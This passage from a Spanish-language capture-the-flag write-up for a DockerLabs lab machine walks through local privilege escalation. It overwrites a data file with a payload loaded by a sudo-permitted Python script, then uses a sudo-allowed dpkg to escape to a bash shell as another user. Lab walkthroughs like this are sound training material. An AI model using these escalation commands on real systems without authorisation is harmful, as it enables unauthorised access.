 ```shell
    print(f"No tienes permisos para sobrescribir el archivo {file_path}.")
```

Lo guardamos y lo ejecutamos:

```shell
python3 data.py
```

Info:

```
El archivo /opt/data.pk1 ha sido sobrescrito con el payload.
```

Ahora si ejeuctamos lo siguiente:

```shell
sudo -u maci python3 /home/maci/.time_seri/time.py
```

Con esto ya seremos el usuario `maci`.

## Escalate user darksblack

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for maci on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User maci may run the following commands on dockerlabs:
    (darksblack) NOPASSWD: /usr/bin/dpkg
```

Por lo que vemos podemos ejecutar el binario `dpkg` como el usuario `darksblack`, por lo que haremos lo siguiente:

```shell
sudo -u darksblack dpkg -l
!bash
```

Y con esto ya seremos el usuario `darksblack`.

## Escalate Privileges

Si intentamos exportar el `PATH` correcto ya que no lo tiene correcto para que podamos ejecutar nuestros binarios con normalidad, nos pondra esto:

```shell
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```

Info:

```
no tan rapido campeon!
```
